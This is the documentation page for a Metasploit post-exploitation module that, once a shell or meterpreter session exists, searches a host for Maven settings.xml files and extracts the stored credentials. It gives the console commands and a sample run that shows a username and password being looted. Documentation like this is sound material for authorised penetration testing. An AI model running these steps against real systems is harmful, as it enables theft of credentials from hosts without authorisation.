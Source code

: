 ## Vulnerable Application

[Maven](https://maven.apache.org/) a software project management.
This module seeks all settings.xml (Maven configuration file) on the target file system to extract credentials from them.

This module was successfully tested against:

- Ubuntu 14.04 and Maven 3.0.5 with shell and meterpreter as session type
- Debian 9 and Maven 3.0.5 with shell and meterpreter as session type

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/maven_creds```
  3. Do: ```set SESSION [SESSION_ID]```
  4. Do: ```run```
  5. If the system has readable configuration files (settings.xml) containing username and passwords, they will be printed out.

## Scenarios

### Ubuntu 14.04 and Maven version 3.0.5

```
msf post(maven_creds) > run

[*] Finding user directories
[*] Unix OS detected
[*] Looting 19 files
[*] Downloading /home/user/settings.xml
[*] Reading settings.xml file from /home/user/settings.xml
[*] Collected the following credentials:
[*]     Id: server-nexus
[*]     Username: deploynexus
[*]     Password: password
[+] Saved credentials to /home/user/.msf4/loot/20170814145812_default_127.0.0.1_maven.credential_351922.txt

msf post(maven_creds) > loot

Loot
====

host       service  type                name          content     info                                                                           path
----       -------  ----                ----          -------     ----                                                                           ----
127.0.0.1           maven.credentials   settings.xml  text/plain  Maven credentials from /home/user/settings.xml and id server-nexus             /home/user/.msf4/loot/20170814145812_default_127.0.0.1_maven.credential_351922.txt

